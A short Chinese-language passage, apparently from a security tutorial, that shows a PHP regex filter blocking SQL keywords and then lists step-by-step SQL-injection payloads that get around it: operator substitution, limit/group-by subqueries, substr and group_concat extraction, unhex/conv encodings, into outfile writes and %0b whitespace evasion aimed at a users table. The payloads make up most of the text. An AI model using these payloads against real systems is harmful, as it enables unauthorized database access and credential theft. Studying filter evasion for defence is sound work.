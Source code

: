 `and, or, union, where, limit, group by, select, ', hex, substr, white space`
  

  
对它们的检测完整正则表达式为
  
`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id)`
  

  
Filter Evasion在Beyond SQLi: Obfuscate and Bypass 以看到比较详细的解释
  
这里只做简化的说明其应对方式依次为 
  
``` sql
  
***note***:"=>"左边表示会被Filtered的语句，"=>"右边表示成功Bypass的语句，
  
左边标红的为被Filtered的关键字，右边标蓝的为替代其功能的函数或关键字
  

  
and => && 　　or => ||
  

  
union select user, password from users　　 =>　　1 || (select user from users where user_id = 1) = 'admin
  

  
1 || (select user from users where user_id = 1) = 'admin'　　=>　　1 || (select user from users limit 1) = 'admin
  

  
1 || (select user from users limit 1) = 'admin' =>　　1 || (select user from users group by user_id having user_id = 
  
1) = 'admin'
  
1 || (select user from users group by user_id having user_id = 1) = 'admin' =>　1 || (select substr(group_concat
  
	(user_id),1,1) user from users )=1
  
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 =>  1 || 1 = 1 into outfile 'result.txt'　或者  
  
1 || substr(user,1,1) = 'a'　
  
1 || (select substr(group_concat(user_id),1,1) user from users) = 1 　=>　　1 || user_id is not null 或者 1 || 
  
	substr(user,1,1) = 0x61 或者 1 || substr(user,1,1) = unhex(61)　　//　' Filtered
  
1 || substr(user,1,1) = unhex(61)　　=>   1 || substr(user,1,1) = lower(conv(11,10,36))
  
1 || substr(user,1,1) = lower(conv(11,10,36)) =>　　1 || lpad(user,7,1)
  
1 || lpad(user,7,1)　　=>　　1%0b||%0blpad(user,7,1)　　// ' ' Filtered
  
```
  